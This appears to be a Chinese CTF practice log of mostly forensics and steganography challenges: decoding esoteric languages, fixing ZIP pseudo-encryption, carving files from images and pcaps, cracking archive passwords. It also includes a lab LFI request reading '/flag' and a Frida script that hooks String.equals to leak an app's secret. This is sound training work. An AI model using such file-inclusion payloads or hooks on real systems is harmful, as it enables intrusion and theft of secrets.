看了里面几个文件，发现了BF编码的flag第一部分和ook的flag第二部分


```
+++++ +++++ [->++ +++++ +++<] >++.+ +++++ .<+++ [->-- -<]>- -.+++ +++.<
++++[ ->+++ +<]>+ +++.< +++++ +[->- ----- <]>-- ----- --.<+ +++[- >----
<]>-- ----- .<+++ [->++ +<]>+ +++++ .<+++ +[->- ---<] >-.<+ +++++ [->++
++++< ]>+++ +++.< +++++ [->-- ---<] >---- -.+++ .<+++ [->-- -<]>- ----- .<   
```


```
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook?
Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook!
Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook.
Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook?
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook.
Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook!
Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook?
Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook! Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook! Ook. Ook?
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook.
Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook!
Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook!
Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook!
Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook! Ook. Ook? Ook. 
```

利用网站解码BF和Ook编码得到完整flag

`flag{N7F5_AD5_i5_funny!}`

### 九连环

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

得到一个jpg图片


进行binwalk和foremost


zip包中是部分伪加密，去掉加密位后可正常解压出图片和错误解压出`qwe.zip`


可以先看图片`steghide.exe extract -sf good-已合并.jpg`，图片没有加密，分离出`ko.txt`文件，内容

```
bV1g6t5wZDJif^J7
```

发现这时候没有办法把这个当作一开始的038.zip的压缩密码，也没办法当作那个解压CRC受损的qwe.zip的压缩密码

后来发现一开始的这个`qwe.zip`本身就可以直接拖出来解压


然后密码输进去，解压得到flag

#### 总结

[BUUCTF-MISC-伪加密](https://www.cnblogs.com/wjun336/p/13884463.html)

#### 小实验

新建了一个文件夹`1122`，里面有两个txt文件。进行了没有加密的zip压缩和一个有`123`作为密码的zip文件，进行分析（下面图中的non的文件名标记错了，而且没加密的文件进行压缩没有放在目录里再压缩，而加密的文件是新放在一个目录里面压缩的）

没加密的文件：两个文件会有5个PK位

都没有奇数压缩


2个0304（源文件数据区），2个 0102（源文件目录区），1个0506（源文件目录结束标志）

加密的文件：7个PK位


3个0304（源文件数据区），3个0102（源文件目录区），1个0506（源文件目录结束标志）

压缩的时候，因为是压缩的文件夹。细细观察其实文件夹有PK位而且是`PK0304`，但是后面的加密是`0000`但是后门俩PK0304的文件就是`0900`了。

目录区那里都没有奇数压缩

顺口溜:

```
源PK0304空2字节奇偶压缩，目录区PK0102空4字节奇偶压缩
```

PNG图片也可以直接运行png模板看到不同的结构


伪加密就是数据区和目录区除了目录以外，文件的加密标志位不一致

# 20220105

山西孝义-Buuctf Basic

### Linux Labs

题目

```
2020年10月24日 更新：目前所有靶机均能直接访问互联网。

点击启动靶机可以启动一台安装好了 LAMP 的机器。

并且这台机器位于靶机内网，所有动态靶机均可直接通过主机名访问这台机器。

但由于目前一个账户只能同时启动一台靶机，您如果有需要建议浏览器开一个隐私窗口，注册一个新账号来启动这个靶机。

ssh 用户名：root 密码：123456 地址和端口为动态分配的。
```

直接看到flag


### BUU LFI COURSE 1

题目

```
点击启动靶机。
```

给了一个网站


文件包含：`http://b4d63ce4-3fc9-4e89-852c-aaff006fee10.node4.buuoj.cn:81/?file=/flag`


### Upload-Labs-Linux

? 这里就不刷了，Basic都是基础性的实验靶场

# 20220106

山西孝义做了两个Basic，做回去misc和bin

### 被劫持的神秘礼物

题目

```
某天小明收到了一件很特别的礼物，有奇怪的后缀，奇怪的名字和格式。小明找到了知心姐姐度娘，度娘好像知道这是啥，但是度娘也不知道里面是啥。。。你帮帮小明？找到帐号密码，串在一起，用32位小写MD5哈希一下得到的就是答案。 链接: https://pan.baidu.com/s/1pwVVpA5_WWY8Og6dhCcWRw 提取码: 31vk 注意：得到的 flag 请包上 flag{} 提交
```

网盘上给了一个pcap流量包


按照题目要求调出来账号密码


`adminaadminb`

计算得到flag直接提交

`1d240aafe21a86afc11f38a45b541a49`

### 刷新过的图片

题目

```
浏览图片的时候刷新键有没有用呢 注意：得到的 flag 请包上 flag{} 提交
```

一般浏览器刷新是`F5`键刷新网页

F5隐写内容解压出来看起来有PK位，像是zip文件


解压需要密码


用azpr破解发现不是简单的密码，有可能是伪加密吗？发现确实是伪加密，提交flag


##### 总结

[F5隐写](https://blog.csdn.net/m0_46296905/article/details/116942784)

### snake

[参考链接](https://www.cnblogs.com/junlebao/p/13843834.html)

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

得到一张蛇的图片


binwalk发现有内容，进行foremost


分离出来的压缩包有两个文件


发现key文件中是base64编码的内容，cipher是二进制密文


```
What is Nicki Minaj's favorite song that refers to snakes?
```

找一个和蛇有关的歌曲


原来才知道anaconda的中文意思是`蟒蛇`


注意`anaconda`得小写，大写会解密失败


`CTF{who_knew_serpent_cipher_existed}`

### [BJDCTF2020]认真你就输了

题目

```
得到的 flag 请包上 flag{} 提交。来源：https://github.com/BjdsecCA/BJDCTF2020
```

给了一个xls表格


binwalk分析出文件中有很多zip包


foremost分离出很多的文件，其中找`flag.txt`直接登录即可


### [BJDCTF2020]藏藏藏

题目

```
得到的 flag 请包上 flag{} 提交。来源：https://github.com/BjdsecCA/BJDCTF2020
```

得到两个文件


分离出来


压缩包解压出一个docx文件，docx文件中有一个二维码


得到flag:`flag{you are the best!}`

### 被偷走的文件

题目

```
一黑客入侵了某公司盗取了重要的机密文件，还好管理员记录了文件被盗走时的流量，请分析该流量，分析出该黑客盗走了什么文件。 注意：得到的 flag 请包上 flag{} 提交
```

得到一个pcap包


binwalk发现端倪之后进行foremost分离，获得一个rar压缩包，但是他是加密的。进行ARPR破解


解压5790得到flag

### [GXYCTF2019]佛系青年

题目

```
得到的 flag 请包上 flag{} 提交。
```

下载下来的压缩包解密直接就要密码，但是可以正常解密出一个png


发现`fo.txt`伪加密


PK加密位不一致，改`09`为`00`即可

获得`fo.txt`


前往[与佛论禅](https://www.keyfc.net/bbs/tools/tudoucode.aspx)解密


### 菜刀666

题目

```
流量分析，你能找到flag吗 注意：得到的 flag 请包上 flag{} 提交
```

获得一个pcap包，分析tcp流7


解密z1出一个图片，疑似上传图片木马


直接复制z2的数据为十六进制，直接框框复制即可


然后打开010editor，导入十六进制数据


另存为jpg文件，看到`Th1s_1s_p4sswd_!!!`


在tcp流9中看到了回传了一个zip文件，里面有flag.txt的一个压缩包


这里复制数据的时候看其他的菜刀的包，发现都是数据被包裹在`->|`和`|<-`中

这里不好直接复制wireshark中的数据，这段菜刀传的zip数据

先直接复制原始数据出来


然后根据16进制数据对比删除出来自己要的数据


然后搜`504b0304`掐头去尾


然后010导入16进制数据即可


发现需要密码


输入密码，成功得到flag

##### 总结

从pcap包中分离HTTP响应中传会的文件内容，使用binwalk和foremost无法成功分离出zip文件


### [BJDCTF2020]你猜我是个啥

题目

```
得到的 flag 请包上 flag{} 提交。来源：https://github.com/BjdsecCA/BJDCTF2020
```

获得一个zip包但是解压失败，binwalk之后才发现他是png图片


改名png后缀后打开，是一个二维码图片


扫描二维码后说`flag不在这`


直接打开png图片看到flag


### 梅花香之苦寒来

(参考链接)[https://blog.csdn.net/mochu7777777/article/details/108927856]

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

获得`meihuai.jpg`


在`FF D9`之后出现了一堆数据


写了一个小脚本用来转化16进制数据

```
import os

with open('ffd9_later16.txt','r') as f:
    raw_content = f.read()
f.close()

print("The length of file is :")
print(len(raw_content))

list_16_chr = []
for i in range(len(raw_content)):
    if i%2 == 0:
        list_16_chr.append(raw_content[i])
    if i%2 == 1:
        list_16_chr[int(i/2)] = list_16_chr[int(i/2)]+raw_content[i]
print("得到的16进制数据列表：")
print(list_16_chr)


list_str = []

for i in list_16_chr:
    list_str.append(chr(int(i,16)))

print(''.join(list_str))

with open('data.txt','w+') as f:
    f.write(''.join(list_str))
f.close()
```

解码得到的数据看起来像是一个二维坐标


安装软件`apt-get install gnuplot`

执行命令

`gnuplot`


导出图片后识别得到flag


##### 总结1.图片结尾的字节

`FFD9`表示一个图片的结尾

##### 总结2.gnuplot


### 秘密文件

题目

```
深夜里，Hack偷偷的潜入了某公司的内网，趁着深夜偷走了公司的秘密文件，公司的网络管理员通过通过监控工具成功的截取Hack入侵时数据流量，但是却无法分析出Hack到底偷走了什么机密文件，你能帮帮管理员分析出Hack到底偷走了什么机密文件吗？ 注意：得到的 flag 请包上 flag{} 提交
```

获得一个pcap包，foremost出另一个压缩包


ARPR破解得到密码`1903`


得到flag

### [SWPU2019]神奇的二维码

[参考链接](https://blog.csdn.net/yoyoko_chan/article/details/118993533)

题目

```
得到的 flag 请包上 flag{} 提交。
```

获得一个png文件，直接扫描得到fake flag


binwalk、foremost出rar文件


还是错误的flag，但是binwalk明明说有rar问价啊，但是为什么只foremost出这个没有字的png图片


可以看到0000.png比BitcoinPay.png小了好几倍，应该还是有文件。无法foremost出来文件的话，只能手动扣数据了(嘴臭，下面使用binwalk分离数据)


分离出了4个rar压缩包


##### 总结1：binwalk比foremost强

[参考链接](https://www.cnblogs.com/tac2664/p/13866979.html)

-e 分解出压缩包

`binwalk -e pcat.bin //要分解的文件名`
　　

-D或者–dd 分解某种类型的文件（在windows里要用双引号括起来）

`binwalk -D=jpeg/*文件类型*/  pcat.bin  //要分解的文件名`
　　

-M 递归分解扫描出来的文件（得跟-e或者-D配合使用）

`binwalk -eM  pcat.bin //要分解的文件名`

1. 解压`7104.rar`

得到一个base64编码的普通文本


解码得到`asdfghjkl1234567890`

2. 解压`716A.rar`


用`asdfghjkl1234567890`成功解密后发现里面加密压缩的是一个和这个熊猫一模一样的jpg图片

3. 解压`17012.rar`

解压出来一个doc文件


测试了一下是多次base64编码，写个脚本解决一下


调试脚本，大概就是20次


得到字符串`comEON_YOuAreSOSoS0great`


```
import os
import base64


with open('raw.txt','r') as f:
    raw_content = f.read()
f.close()
print(raw_content)

for i in range(20):
    print("次数:")
    print(i)
    raw_content = base64.b64decode(raw_content)

print(raw_content)
```

4. 解压`18394.rar`

用3中的密码解压出一个mp3文件，听了一下就知道是摩尔斯编码的音频文件了


得到字符`MORSEISVERYVERYEASY`

提交flag

##### 总结2：常见文件头和文件尾

[常见文件头和文件尾](https://www.cnblogs.com/lwy-kitty/p/3928317.html)

```
JPEG (jpg)，                        　　文件头：FFD8FF　　　　　　　　　　　　　　　　　　　　　　　 文件尾：FF D9　　　　　　　　　　　　　　　
PNG (png)，                       　　 文件头：89504E47　　　　　　　　　　　　　　　　　　　　　　文件尾：AE 42 60 82
GIF (gif)，                           　　文件头：47494638　　　　　　　　　　　　　　　　　　　　　　文件尾：00 3B                                                                 ZIP Archive (zip)，                     文件头：504B0304　　　　　　　　　　　　　　　　　　　　　　文件尾：50 4B

TIFF (tif)，                           　  文件头：49492A00　　　　　　　　　　　　　　　　　　　　　　文件尾：
Windows Bitmap (bmp)，      　  文件头：424D　　　　　　　　　　　　　　　　　　　　　　　　 文件尾：
CAD (dwg)，                        　  文件头：41433130　　　　　　　　　　　　　　　　　　　　　　文件尾：
Adobe Photoshop (psd)，          文件头：38425053　　　　　　　　　　　　　　　　　　　　　　文件尾：
Rich Text Format (rtf)，             文件头：7B5C727466　　　　　　　　　　　　　　　　　　　　  文件尾：
XML (xml)，                              文件头：3C3F786D6C　　　　　　　　　　　　　　　　　　　　 文件尾：
HTML (html)，                           文件头：68746D6C3E
Email [thorough only] (eml)，     文件头：44656C69766572792D646174653A
Outlook Express (dbx)，            文件头：CFAD12FEC5FD746F
Outlook (pst)，                         文件头：2142444E
MS Word/Excel (xls.or.doc)，      文件头：D0CF11E0
MS Access (mdb)，                    文件头：5374616E64617264204A
WordPerfect (wpd)，                  文件头：FF575043
Adobe Acrobat (pdf)，               文件头：255044462D312E
Quicken (qdf)，                         文件头：AC9EBD8F
Windows Password (pwl)，         文件头：E3828596

RAR Archive (rar)，                    文件头：52617221
Wave (wav)，                            文件头：57415645
AVI (avi)，                                 文件头：41564920
Real Audio (ram)，                     文件头：2E7261FD
Real Media (rm)，                       文件头：2E524D46
MPEG (mpg)，                           文件头：000001BA
MPEG (mpg)，                           文件头：000001B3
Quicktime (mov)，                     文件头：6D6F6F76
Windows Media (asf)，               文件头：3026B2758E66CF11
MIDI (mid)，                              文件头：4D546864
```

# 20220108

山西孝义，做做逆向题目


# 20210120

### [SWPU2019]Android1

[参考链接](https://blog.csdn.net/shuaicenglou3032/article/details/117532572)

fuck.js

```
console.log("Script loaded successfully ");
Java.perform(function x() {//hook思路3：系统打桩，监控系统api equals方法的调用，每调用一次equals方法就打印出一次equals对比的值
    var String = Java.use('java.lang.String')//定位到要hook的类名
    String.equals.implementation = function (arg1) {//equals就是我们要hook的函数
    console.log("your input : " + this.toString());
    console.log("I'm the real key : " + arg1);//打印出来真实的解锁码
    var ret = this.equals(arg1);
    return ret;//返回值
    }
});
```

`frida -U -f com.example.ndktest2 -l fuck.js`

`%resume`让程序开始执行。

然后在验证框里面随便输入，equals方法被调用时就被劫持了，打印出来NDK返回的真实flag:

获得flag

`flag{YouaretheB3ST}`


# 20220121

### helloword

题目

```
有难的题目，也就有简单的题目，就像程序员一辈子编写的第一个程序，极有可能是helloword，它很普通，但是也很让人怀念。你猜这题flag在哪里？让我们怀念第一次编写的easy程序吧！ 注意：得到的 flag 请包上 flag{} 提交
```

获得一个apk文件


# 20220309

### pwn1_sctf_2016

题目

```
Ubuntu 16
```

获得文件`pwn1_sctf_2016`

不会。。。


### 新年快乐

题目

```
过年了要不做个逆向题庆祝一下新年？说不定会有惊喜哦！注意：flag并非是flag{XXX}形式，就是一个字符串，考验眼力的时候到了！ 注意：得到的 flag 请包上 flag{} 提交
```


